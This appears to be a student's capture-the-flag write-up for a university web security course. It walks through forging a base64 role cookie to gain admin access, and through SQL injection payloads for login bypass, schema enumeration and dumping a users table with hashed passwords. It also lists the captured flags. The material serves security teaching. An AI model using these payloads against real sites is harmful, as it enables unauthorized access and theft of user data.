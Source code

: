 ## Bigapp
### Cookie poisoning
#### COMP6443{I_Th0uGHT_We_F1xeD_Th15_L@st_W3Ek_z5346077_SZITLDoaQA73OGXuy1gi}
1. Sign up an account and log in, e.g. email: *user@user.com* and password: *12345678*. 
2. Inspect the cookie. The cookie is in base64 encoded format.
3. Decode the cookie, the format of the decoded string is `<user_email>:<role>`. 
4. The user can escalate their account to admin privilege by manipulating the *role* in the cookie, e.g. `user@user.com:admin`. 
5. Base64 encode and update the cookie.
6. Refresh the page and the user now has admin privilege.

### SQLi
#### COMP6443{Il1_h@v3_2_nuMBeR_9s..._z5346077_SOmuU/qealL79vqXXwz4}
#### COMP6443{I_@lwayS_Want_M0rE_Than_YoU_G1Ve_z5346077_vQWznAFTgBwR4jCrEIQA}
#### COMP6443{Wh0_R3memBERs_P@ssWorDS_Th3se_dAYz_z5346077_HbTydbp4SkAidFUQB3tJ}
#### COMP6443{What_I5nt_Inj3ct@ble_z5346077_0suSiDC1n6Pi983r3N8B}
1. Search `'`. In Burp Suite, it tells that the request encoutered an internal server error (status code = 500). This means that `'` is the SQL syntax.
2. Search `' or 1=1; -- test`. The request still encountered the same error. 
3. Try adding `)` to the SQLi payload, e.g.`') or 1=1; -- test`. 
4. Search `')) or 1=1; -- test`. This gives all banking products, meaning that the payload is correct. 
5. Try order the list by searching `')) order by id -- test`.
6. To view all tables in the schema, search `')) or 1=1 union select 1,1,1,1,1,table_name from information_schema.tables; -- test`. 
7.  This leaks the other table in the schema: *users*. 
8. On the login page, login as username: `' or 1=1 -- test` and a random password: *12345678*. 
9.  The user is logged in as *Rae.Salley@miller.com*. 
10. The flag can be found in the response header. 
11. Since the login page is vulnerable to SQLi, the page to create new users is more likely to have SQLi vulnerability as well (same configuration). 
12. Try to create duplicated user, *John Smith*. 
13. Create a new user with name *John Smith* and email: *John@quoccabank.com*. 
14. In Burp Suite, send the request to the Repeater. Insert `John%40quoccabank.com' or 1=1 -- ` as the *email* payload.

### SQLi + Security misncofigurations
#### COMP6443{I_@m_th3_Adm1n_AgaIN_z5346077_Rr+GqbZkVr3uoWPe9eEu}
1. To view the columns in the *users* table, search `')) or 1=1 union select 1,1,1,1,1,column_name from information_schema.columns where table_name="users"; -- test`. 
2. This leaks the columns in the *users* table: id, fname, lname, userid, email, mobile, city, state, postcode, password.
3.. To view *users* table, search `')) or 1=1 union select userid,fname,lname,mobile,email,password from users; -- test`. 
4. This leaks all users' information, including email and hased password. 
14. The website admin has email: *admin@quoccabank.com* and password: *Admin@123* (use online MD5 decryption tool to decrypt the hashed password).
5. The user is signed in as admin.
